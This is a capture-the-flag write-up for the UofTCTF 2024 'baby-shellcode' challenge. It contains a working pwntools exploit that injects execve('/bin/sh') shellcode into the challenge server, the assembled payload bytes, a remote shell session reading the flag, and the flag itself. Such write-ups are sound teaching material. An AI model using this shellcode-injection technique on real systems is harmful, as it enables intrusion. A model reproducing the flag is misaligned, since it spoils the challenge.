 # baby-shellcode [232 Solves]

## Description

> This challenge is a test to see if you know
> how to write programs that machines can understand.
>
> Oh, you know how to code?
>
> Write some code into this program,
> and the program will run it for you.
>
> What programming language, you ask?
> Well... I said it's the language that *machines* can understand.
>
> Author: drec
>
> `nc 34.28.147.7 5000`
>
> Attachments: baby-shellcode

## Short Solution

Shellcode to pop /bin/sh

## Solution

### Basic file checks

```console
$ file baby-shellcode
baby-shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ checksec baby-shellcode
[*] '/root/ctf/UofTCTF_2024/pwn/baby-shellcode/baby-shellcode'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

### solver.py

Generate shellcode by [shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.sh).

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./baby-shellcode", checksec=False)
context.binary = elf


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("34.28.147.7", 5000)

    elif args.GDB:
        gdbscript = """

        c
        """
        pty = process.PTY
        io = gdb.debug([elf.path], gdbscript=gdbscript, stdin=pty, stdout=pty)
    else:
        pty = process.PTY
        io = elf.process(stdin=pty, stdout=pty)

    return io


def main():
    payload = b""
    payload += asm(shellcraft.sh())

    io = conn()
    io.sendline(payload)

    io.interactive("")


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py REMOTE
[DEBUG] '/root/ctf/UofTCTF_2024/pwn/baby-shellcode/baby-shellcode' is statically linked, skipping GOT/PLT symbols
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/local/lib/python3.11/dist-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00'] */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 8
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push 59 /* 0x3b */
        pop rax
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-782f_j6m/step2 /tmp/pwn-asm-782f_j6m/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-782f_j6m/step3 /tmp/pwn-asm-782f_j6m/step4
[+] Opening connection to 34.28.147.7 on port 5000: Done
[DEBUG] Sent 0x31 bytes:
    00000000  6a 68 48 b8  2f 62 69 6e  2f 2f 2f 73  50 48 89 e7  │jhH·│/bin│///s│PH··│
    00000010  68 72 69 01  01 81 34 24  01 01 01 01  31 f6 56 6a  │hri·│··4$│····│1·Vj│
    00000020  08 5e 48 01  e6 56 48 89  e6 31 d2 6a  3b 58 0f 05  │·^H·│·VH·│·1·j│;X··│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x1e bytes:
    b'uid=1000 gid=1000 groups=1000\n'
uid=1000 gid=1000 groups=1000
ls -la
[DEBUG] Sent 0x7 bytes:
    b'ls -la\n'
[DEBUG] Received 0xcf bytes:
    b'total 20\n'
    b'drwxr-xr-x 1 nobody nogroup 4096 Jan 12 02:59 .\n'
    b'drwxr-xr-x 1 nobody nogroup 4096 Jan 12 02:59 ..\n'
    b'-r--r--r-- 1 nobody nogroup   42 Jan  9 02:02 flag\n'
    b'-rwxr-xr-x 1 nobody nogroup 4672 Jan  9 02:02 run\n'
total 20
drwxr-xr-x 1 nobody nogroup 4096 Jan 12 02:59 .
drwxr-xr-x 1 nobody nogroup 4096 Jan 12 02:59 ..
-r--r--r-- 1 nobody nogroup   42 Jan  9 02:02 flag
-rwxr-xr-x 1 nobody nogroup 4672 Jan  9 02:02 run
cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2a bytes:
    b'uoftctf{arbitrary_machine_code_execution}\n'
uoftctf{arbitrary_machine_code_execution}
```

## Flag

uoftctf{arbitrary_machine_code_execution}
